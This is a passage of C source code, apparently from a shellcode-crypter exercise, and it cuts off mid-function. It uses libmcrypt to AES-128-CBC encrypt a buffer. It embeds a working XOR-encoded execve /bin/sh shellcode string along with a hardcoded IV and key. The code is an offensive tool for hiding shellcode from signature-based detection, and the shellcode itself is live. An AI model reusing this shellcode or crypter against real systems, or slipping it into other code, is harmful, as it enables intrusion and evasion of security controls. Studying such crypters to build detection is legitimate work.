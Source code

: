 ```c
    int buffer_len, /* the shellcode could include null bytes*/
    char* IV,
    char* key,
    int key_len
){
  
  /*
  *	 mcrypt_module_open function associates the algorithm and the mode specified [Algorithm: rijndael-128, mode: CBC]
  *	 Returns an encryption descriptor, or MCRYPT_FAILED on error
  */
  MCRYPT td = mcrypt_module_open("rijndael-128", NULL, "cbc", NULL);

  int blocksize = mcrypt_enc_get_block_size(td);
  
  // buffer_len should be k*algorithms_block_size if used in a mode which operated in blocks (cbc, ecb, nofb)
  if( buffer_len % blocksize != 0 ){return 1;}
 
  // initializes all buffers for the specified thread
  mcrypt_generic_init(td, key, key_len, IV);

  /*
  *	main encryption function. td is the encryption descriptor returned by mcrypt_generic_init(). 
  *	buffer contains the shellcode wewish to encrypt and buffer_len is the length (in bytes) of shellcode.
  *	Returns 0 on success.
  */
  mcrypt_generic(td, buffer, buffer_len);

  // This function terminates encryption specified by the encryption descriptor (td)
  mcrypt_generic_deinit (td);

  // This function closes the modules used by the descriptor td. 
  mcrypt_module_close(td);
  
  return 0;
}

int main()
{
  MCRYPT td;

  // execve /bin/sh shellcode
  char * shellcode = \
  "\xeb\x0d\x5e\x31\xc9\xb1\x19\x80\x36\xaa\x46\xe2\xfa\xeb\x05\xe8\xee\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a";

  int ctr;
  int shellcode_len;
  shellcode_len = strlen(shellcode);
 
  // Initializaion Vector
  char* IV = "BLEHBLAHBLEHBLAH";

  // key
  char *key = "ub3r53cr3t435k3y";
  int keysize = 16; /* 128 bits */
  char* buffer;

  // must be larger than or equal to shellcode length and should be k*algorithms_block_size if used in a mode which operated in blocks (cbc, ecb, nofb)
  // CBC in this case
```